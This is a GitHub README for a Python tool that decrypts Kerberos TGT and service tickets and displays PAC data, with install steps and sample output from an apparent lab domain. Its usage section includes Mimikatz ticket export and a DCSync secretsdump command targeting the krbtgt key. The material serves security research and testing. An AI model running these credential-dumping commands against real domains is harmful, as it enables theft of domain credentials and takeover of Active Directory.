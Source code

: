 # Kerberos Ticket Decryptor

## Overview

**Kerberos Ticket Decryptor** is a Python script designed to decrypt Kerberos TGT and Service Tickets for analysis and security research. It extracts authentication and PAC (Privilege Attribute Certificate) data, helping in forensic investigations and penetration testing.

The original code which is the base of this script is available from the following repository: [https://gist.github.com/xan7r/ca99181e3d45ee2042425f4f9181e614#file-decryptkerbticket-py](https://gist.github.com/xan7r/ca99181e3d45ee2042425f4f9181e614#file-decryptkerbticket-py)

## Features

- Supports decryption of **TGT** and **TGS** tickets.
- Extracts and displays **PAC data** (Effective Name, User ID, Group Memberships, etc.).
- Supports **ccache** and **kirbi** formats.
- Provides user account control flags and security identifiers translation.
- Handles AES-128, AES-256, and RC4-HMAC encryption.


## Installation

Clone the repository:

```sh
git clone https://github.com/yourusername/kerberos-ticket-decryptor.git
cd kerberos-ticket-decryptor
python3 -m virtualenv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

## Usage

### Obtain Kerberos Tickets

```bash
# Extract Kerberos tickets using Mimikatz
sekurlsa::tickets /export

# Convert to ccache format (optional):
kekeo "misc::convert ccache <ticketName.kirbi>"

# Extract the AES-256 key using DCSync:
secretsdump.py -just-dc-user krbtgt@<domain>
```

### Decrypting a Ticket

```bash
python3 krbdecrypt.py -k 15[...]8 -t randomuser.ccache
```

```bash
[+] TICKET LOADED SUCCESSFULLY
[+] DECRYPTING TICKET
[+] AUTHORIZATION DATA:

Client:          randomuser@DOLLARCORP.MONEYCORP.LOCAL
Server:          krbtgt/DOLLARCORP.MONEYCORP.LOCAL@DOLLARCORP.MONEYCORP.LOCAL
Domain Name:     DOLLARCORP.MONEYCORP.LOCAL
Signet User:     krbtgt
Ticket Type:     TGT
Encryption:      aes256-cts-hmac-sha1-96
Username:        randomuser
Auth Time:       2025.01.10 04:38:02
Start Time:      2025.01.10 04:38:02
End Time:        2035.01.08 04:38:02
Renew Time:      2035.01.08 04:38:02


[+] PAC DATA:

EffectiveName:            randomuser
FullName:                 N/A
LogonScript:              N/A
ProfilePath:              N/A
HomeDirectory:            N/A
HomeDirectoryDrive:       N/A
LogonCount:               500
BadPasswordCount:         0
UserId:                   500
UserSid:                  S-1-5-21-719815819-3726368948-3917688648-500
PrimaryGroupId:           513
GroupCount:               5
GroupIds:                 [513, 512, 520, 518, 519]
FriendlyGID:              Domain Users (513), Domain Admins (512), Group Policy Creator Owners (520), Schema Admins (518), Enterprise Admins (519)
UserFlags:                0
UserSessionKey:           b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
LogonServer:              N/A
LogonDomainName:          DOLLARCORP.MONEYCORP.LOCAL
DomainSid:                S-1-5-21-719815819-3726368948-3917688648
LMKey:                    b'\x00\x00\x00\x00\x00\x00\x00\x00'
UserAccountControl:       NORMAL_ACCOUNT, LOCKOUT
SubAuthStatus:            0
LastSuccessfulILogon:     0
LastFailedILogon:         0
FailedILogonCount:        0
Reserved3:                0
SidCount:                 0
ExtraSids:                
ResourceGroupDomainSid:   b''
ResourceGroupCount:       0
ResourceGroupIds:         b''
```

